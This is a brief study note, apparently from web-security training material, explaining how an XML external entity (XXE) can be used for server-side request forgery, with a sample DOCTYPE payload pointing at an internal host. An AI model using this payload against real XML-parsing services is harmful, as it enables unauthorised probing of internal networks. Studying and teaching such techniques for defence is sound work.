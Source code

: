 
## Exploiting XXE to Perform SSRF Attacks

- Need to do the following:
	- Define an external XML entity using the URL you want to target
	- Use the defined entity within a data value

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM " http://internal.vulnerable-
website.com/"> ]>
```
